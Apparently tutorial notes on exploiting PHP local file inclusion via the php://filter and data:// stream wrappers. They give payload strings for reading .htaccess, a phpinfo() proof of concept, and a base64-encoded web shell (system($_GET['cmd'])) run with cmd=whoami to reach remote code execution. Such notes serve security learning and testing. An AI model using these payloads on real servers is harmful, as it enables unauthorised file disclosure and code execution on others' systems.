 
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

|   |   |
|---|---|
|**Payload**|**Output**|
|php://filter/convert.base64-encode/resource=.htaccess |UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz|
|php://filter/string.rot13/resource=.htaccess|ErjevgrRatvar ba Bcgvbaf -Vaqrkrf|
|php://filter/string.toupper/resource=.htaccess|REWRITEENGINE ON OPTIONS -INDEXES|
|php://filter/string.tolower/resource=.htaccess|rewriteengine on options -indexes|
|php://filter/string.strip_tags/resource=.htaccess|RewriteEngine on Options -Indexes|
|No filter applied|RewriteEngine on Options -Indexes|

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly within the URI, often used for embedding small data sets or resources.

**Note:** allow_url_include must be set!

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752